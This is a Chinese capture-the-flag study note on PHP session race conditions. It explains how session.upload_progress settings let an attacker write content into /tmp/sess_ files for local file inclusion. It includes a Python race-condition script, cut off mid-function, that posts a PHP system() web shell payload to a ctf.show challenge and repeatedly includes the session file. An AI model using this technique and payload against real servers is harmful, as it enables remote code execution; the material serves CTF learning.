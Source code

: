 **session条件竞争**

**文件上传条件竞争**

新手杯石头剪刀布  make php great again

## session

### 文件包含

这篇文章写的很详细，我大致总结一下

[利用session.upload_progress进行文件包含和反序列化渗透](https://www.freebuf.com/vuls/202819.html)

> 在php5.4之后新增的配置
>
> ```php
> 1.session.upload_progress.enabled = on
> 2.session.upload_progress.cleanup = on
> 3.session.upload_progress.prefix = "upload_progress_"
> 4.session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"
> 5.session.use_strict_mode=off
> ```
>
> 第一个表示当浏览器向服务器上传一个文件时，php将会把此次文件上传的详细信息(如上传时间、上传进度等)存储在session当中
> 第二个表示当文件上传结束后，php将会立即清空对应session文件中的内容
> 第三和第四个`prefix+name`将表示为session中的键名
> 第五个表示我们对Cookie中sessionID可控
>
> 也就是说，当我们**POST**上传一个`PHP_SESSION_UPLOAD_PROGRESS`为**key**，任意内容为**value**，同时上传一个文件，然后我们在Cookie里设置PHPSESSID=xlccccc，此时会在服务器上创建一个`/tmp/sess_xlccccc`，里面的内容就为上面的**value**，文件是充数的
> 即使此时用户没有初始化Session，PHP也会自动初始化Session。 并产生一个键值，这个键值有`ini.get("session.upload_progress.prefix")`+由我们构造的`session.upload_progress.name`值组成，最后被写入sess_文件里。
>
> 但由于**cleanup**是开启的，所以这个文件是会被自动清除的，此时就需要条件竞争，在他没能清除的时候进行文件包含实现利用

当文件包含过滤的很死时，就可考虑这个

还可以配合文件上传的`.user.ini`打文件包含（详见**ctfshow_web162**

条件竞争脚本

```python
#-- coding:UTF-8 --
# Author:dota_st
# Date:2021/2/20 23:51
# blog: www.wlhhlc.top
import io
import requests
import threading
url = 'http://453228ae-28f2-4bb0-b401-83514feae8df.chall.ctf.show:8080/'

def write(session):
    data = {
        'PHP_SESSION_UPLOAD_PROGRESS': '<?php system("tac f*");?>xl'
    }
    while True:
        f = io.BytesIO(b'a' * 1024 * 10)
        response = session.post(url,cookies={'PHPSESSID': 'flag'}, data=data, files={'file': ('xl.txt', f)})
def read(session):
    while True:
        response = session.get(url+'?file=/tmp/sess_flag')
        if 'xl' in response.text:
            print(response.text)
            break
        else:
```
